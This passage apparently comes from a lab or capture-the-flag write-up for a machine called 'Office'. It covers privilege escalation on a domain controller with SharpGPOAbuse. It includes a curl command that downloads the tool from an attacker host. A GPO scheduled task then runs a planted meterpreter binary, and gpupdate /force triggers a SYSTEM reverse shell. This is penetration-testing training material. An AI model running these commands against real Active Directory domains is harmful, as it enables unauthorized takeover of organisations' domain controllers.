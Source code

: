 Next step is to get the SharpGPOAbuse binary on the machine. if you don't have it already you can download a precompiled version [here](https://github.com/byronkg/SharpGPOAbuse/releases/tag/1.0). Then we download this binary to our machine the same way as we did before.

```powershell
curl "http://10.10.16.67/SharpGPOAbuse.exe" -o SharpGPOAbuse.exe
```
next we run our exploit with the following parameters. With this we'll make the domain controller start a new shell as system using our previous meterpreter binary

```powershell
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "New Task" --Author OFFICE\Administrator --Command "cmd.exe" --Arguments "/c c:\users\public\calico.exe" --GPOName "Default Domain Controllers Policy"
```

![Exploit worked](/assets/img/Office/Office_37.png)

Now that we updated the group policy we are able to instantly trigger it by forcing a group policy update. After doing this we'd get a reverse shell in our meterperter listener as system.

```powershell
gpupdate /force
```

![Shell as system](/assets/img/Office/Office_38.png)
